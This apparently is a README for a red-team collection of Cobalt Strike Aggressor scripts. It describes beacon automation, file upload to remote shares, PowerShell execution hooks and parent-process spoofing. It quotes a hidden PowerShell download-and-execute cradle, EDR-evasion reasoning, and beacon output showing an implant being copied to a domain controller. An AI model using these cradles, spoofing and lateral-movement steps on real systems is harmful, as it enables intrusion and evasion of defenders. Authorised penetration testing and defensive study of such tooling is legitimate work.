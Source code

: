 ## cobalt-arsenal

My published set of Aggressor Scripts for Cobalt Strike 4.0+

- **`BeaconInitialTasks.cna`** - This script lets you configure **commands that should be launched as soon as the Beacon checks-in for the first time**. Both commands and argue settings are available in a dedicated options dialog. Also, a feature to right-click on a Beacon and issue "Run custom command..." was added to allow to run arbitrary commands against multiple beacons. Settings are then save in file specified in a global variable named:
     `$beaconInitialTasksSettingsFile`

   *How it works?*

   Implementation of beacon_task() functionality to invoke nearly-arbitrary Cobalt Strike commands
   from a passed string, from within your Aggressor scripts:
         ```
         beacon_task($bid, "execute-assembly C:\\tools\\Rubeus.exe hash /password:test");
         ```

- **`better-upload.cna`** - Simple yet **super handy** script that overrides built-in `upload` command by having one that offers additional, second parameter - being _remote file path_. By default we're only able to upload file to the CWD. This implementation let's us upload wherever we like:

```
beacon> upload implant.exe \\DC1\c$\windows\temp\implant.exe
[*] Tasked Beacon to upload file (size: 929.25KB) from: (implant.exe) to: (\\DC1\c$\windows\temp\implant.exe)
[+] host called home, sent: 951655 bytes

```

- **`cwd-in-beacon-status-bar.cna`** - Simple Beacon console status bar enhancement showing Beacon's last known current working directory path, as well as adding fixed-width to last-seen meter. Additionally, this script enhances `cd` command to make it restore previous path if `cd -` was issued (and previous path is known).

- **`custom-powershell-hooks.cna`** - This script introduces several different methods for Powershell download and execution primitives, other than Cobalt Strike's default `(Net.WebClient).DownloadString` and `IEX()`:
```
		set POWERSHELL_DOWNLOAD_CRADLE {
			return "IEX (New-Object Net.Webclient).DownloadString(' $+ $1 $+ ')";
		}
		[...]

		set POWERSHELL_COMMAND {
		[...]
			return "powershell -nop -w hidden -encodedcommand $script";
		}
```

Aforementioned methods are heavily flagged these days by EDRs and AVs so we would prefer to avoid their use. It so happens that Cobalt Strike by default embeds them excessively, generating lot of noise in such systems. We can tell Cobalt Strike to structure it's Powershell use patterns differently. However, some of introduced custom methods may not work. In such situations, we can always switch back to battle tested Cobalt Strike defaults by setting `$USE_UNSAFE_ENCODEDCOMMAND_AND_IEX = 2;` in the script's header.

- **`FilesColor.cna`** - Color Coded Files Listing. Similar to `ProcessColor.cna` by [@r3dQu1nn](https://github.com/harleyQu1nn/AggressorScripts) this script colorizes file listing outputs based on file type and extension. **It also tries to keep track of uploaded files to have them highlighted in files listing as well**. The Colors scheme information will be showed only three times by default, unless configured otherwise via global variable named `$TIMES_TO_DISPLAY_COLORS_SCHEME`.

![FilesColor example](https://raw.githubusercontent.com/mgeeky/cobalt-arsenal/master/img/1.PNG)

- **`Forwarded_Ports.cna`** - Keeps track of configured remote port forwardings on all Beacons and lets kill them easily. Available in `View -> Remote Forwarded Ports`

   Using `rportfwd` here and there quickly consumes pool of available local ports from which to forward traffic outbound and keeping track of them manually becomes tedious on a long-haul projects. This script aims to fill that gap by collecting these commands and presenting them in a nice visualization pane (concept & implementation based on previous work of @ramen0x3f [leave_no_trace](https://github.com/ramen0x3f/AggressorScripts/blob/master/leave_no_trace.cna), @001SPARTaN and @r3dqu1nn [logvis.cna](https://github.com/invokethreatguy/AggressorCollection/blob/master/harleyQu1nn/logvis.cna) ).

- **`Highlight_Beacons.cna`** - Highlights Beacons for a specified time duration (`$HIGHLIGHT_DURATION`) on Initial check-in event, when exiting (and after Beacon exited) and after each Beacon command's output. Configurable colors and events found in `%HIGHLIGHTS` dictionary. Hint: Specify `output => ""` to disable highlighting new Beacon command outputs.

- **`httprequest.cna`** - Safe & sound HTTP request implementation for Cobalt Strike 4.0 Aggressor Script. Works with HTTP & HTTPS, GET/POST/etc. + redirections. Rationale: I've tested various implementations of HTTP request sending subroutines written in Sleep for CS, but none of them matched by needs - working support for GET/POST, redirections handling and exceptions-safe execution. So I came up with my own implementation. ([gist](https://gist.github.com/mgeeky/2d7f8c2a6ffbfd23301e1e2de0312087)) 

- **`Payload_Variants_Generator.cna`** - This script generates stageless payload variants per each available architecture and output format type. Compatible with Cobalt Strike 4.0+.

- **`parse-error-codes.cna`** - A handy script that parses reported error codes and prints their corresponding Windows related meaning directly in Beacon's console output.

  **From:**
  ```
  beacon> ls C:\gdgsdfgdf
  [-] could not open C:\gdgsdfgdf\*: 3
  ```

  **To:**
  ```
  beacon> ls C:\gdgsdfgdf
  [-] could not open C:\gdgsdfgdf\*: 3. Parsed error code:
      3 - ERROR_PATH_NOT_FOUND
  ```

- **`rename-beacon-tabs.cna`** - Script that lets us rename Beacon-related tabs from a default format of: `Beacon <ip>@<pid>` to anything other we like, for instance: `B: <user>@<computer> (<pid>)`. 

   Format deciding how should each Beacon's tab be named, utilising beacon's metadata fields is described in a global variable named $beacon_tab_name_format . That variable may contain any of the following available beacon's metadata keys (CobaltStrike 4.2):

   `note, charset, internal , alive, session, listener, pid, lastf, computer, host, 
   is64, id, process, ver, last, os, barch, phint, external, port, build, pbid, arch, 
   user, _accent`


- **`settings.cna`** - Script that offers sample implementation for `saveOptions` and `loadOptions` routines, intended to store & restore settings from an external file.

- **`smart-autoppid.cna`** - Autoppid - script that smartely invokes PPID for every new checkin in Beacon. PPID command requires invoked Beacon to have the same Integrity level as the process it want's to assume as it's Parent. That's due to how InitializeProcThreadAttributeList with PROC_THREAD_ATTRIBUTE_PARENT_PROCESS works. In order to avoid harcoded explorer.exe PID assumption, we can look around for a configurable process name and then try to find that process running on the highest available for us integrity level. In that case, unprivileged user would assume PPID of for instance svchost.exe running as that user, wherease the privileged one - could go for the svchost.exe running as NT AUTHORITY\SYSTEM. We aim to smartely pick the most advantageous target, in a dynamic fashion.

The same command is also exposed as an alias:

```
beacon> autoppid
[*] Tasked Beacon to find svchost.exe running as SYSTEM and make it the PPID.
[.] host called home, sent: 12 bytes
Future post-ex jobs will be spawned with fake PPID set to:
	svchost.exe	604	700	x64	NT AUTHORITY\SYSTEM	0

[*] Tasked beacon to spoof 700 as parent process
[.] host called home, sent: 12 bytes
```

